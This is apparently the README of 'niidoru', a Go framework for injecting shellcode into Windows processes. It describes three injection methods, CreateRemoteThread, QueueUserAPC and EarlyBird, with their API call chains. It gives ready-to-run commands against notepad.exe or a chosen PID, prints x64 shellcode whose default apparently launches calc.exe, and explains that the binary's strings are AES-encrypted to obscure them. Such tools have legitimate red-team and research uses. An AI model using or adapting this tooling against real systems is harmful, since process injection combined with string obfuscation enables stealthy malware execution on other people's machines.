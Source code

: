 # niidoru

Framework for Process Injection using Go.

```
go run . -m <METHOD> [ -p <PID> | -n <PROCESS_NAME> ] [ -h HEXADECIMAL_PAYLOAD ]
```
- -m (Mandatory): Process injection method. Options:
    - *-m 1*: **Method 1** or **CreateRemoteThread** method (OpenProcess + VirtualAllocEx + WriteProcessMemory + CreateRemoteThread + CloseHandle)
    - *-m 2*: **Method 2** or **QueueUserAPC** method (OpenProcess + VirtualAllocEx + WriteProcessMemory + OpenThread + QueueUserAPC + CloseHandle)
    - *-m 3*: **Method 3** or **EarlyBird** method (CreateProcess + VirtualAllocEx + WriteProcessMemory + VirtualProtectEx + QueueUserAPC + ResumeThread + CloseHandle)

- -p (Optional):  Process ID or PID. Example: 1234

- -n (Optional):  Process name. Example: notepad.exe

- -h (Optional):  Hexadecimal payload. It can be in the format "\x50\x51\x52" or "505152". Default: Payload to pop calc.exe 

------------------------------

## Examples

Process injection using CreateRemoteThread method, targeting a notepad.exe process and a payload in hexadecimal format with "\x":  

```
go run . -m 1 -n notepad.exe -h \x50\x51\x52\x53\x56\x57\x55\x6A\x60\x5A\x68\x63\x61\x6C\x63\x54\x59\x48\x83\xEC\x28\x65\x48\x8B\x32\x48\x8B\x76\x18\x48\x8B\x76\x10\x48\xAD\x48\x8B\x30\x48\x8B\x7E\x30\x03\x57\x3C\x8B\x5C\x17\x28\x8B\x74\x1F\x20\x48\x01\xFE\x8B\x54\x1F\x24\x0F\xB7\x2C\x17\x8D\x52\x02\xAD\x81\x3C\x07\x57\x69\x6E\x45\x75\xEF\x8B\x74\x1F\x1C\x48\x01\xFE\x8B\x34\xAE\x48\x01\xF7\x99\xFF\xD7\x48\x83\xC4\x30\x5D\x5F\x5E\x5B\x5A\x59\x58\xC3
```

Process injection using QueueUserAPC method, targeting a process with PID 4272 and a payload in hexadecimal format without "\x":

```
go run . -m 2 -p 4272 -h 505152535657556A605A6863616C6354594883EC2865488B32488B7618488B761048AD488B30488B7E3003573C8B5C17288B741F204801FE8B541F240FB72C178D5202AD813C0757696E4575EF8B741F1C4801FE8B34AE4801F799FFD74883C4305D5F5E5B5A5958C3
```

Process injection using EarlyBird method, spawning a new Notepad process and the default payload:

```
go run . -m 3 -n c:\windows\system32\notepad.exe 
```

Screenshot of the three examples:

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/niidoru/Screenshot_1.png)


------------------------------

## Using the binary

Compile it with:

```
go build
```

Then you can use the same commands as earlier replacing "go run ." with "niidoru.exe":

``` 
niidoru.exe -m <METHOD> [ -p <PID> | -n <PROCESS_NAME> ] [ -h HEXADECIMAL_PAYLOAD ]
```

------------------------------

## AES encryption

AES is used to obfuscate all the strings in the binary. To change the encrypted values you can use [this gist](https://gist.github.com/ricardojoserf/986b8be42b356da530469bbd32fa88fa), which is a small variation from this [other gist](https://gist.githubusercontent.com/aziza-kasenova/3aea2160cbaebc5a4ba1b9219cba612e/raw/32b3801369ce669b2b1bf89ca84d24f23b487579/AES256.go), just fixing a small problem with the padding. 
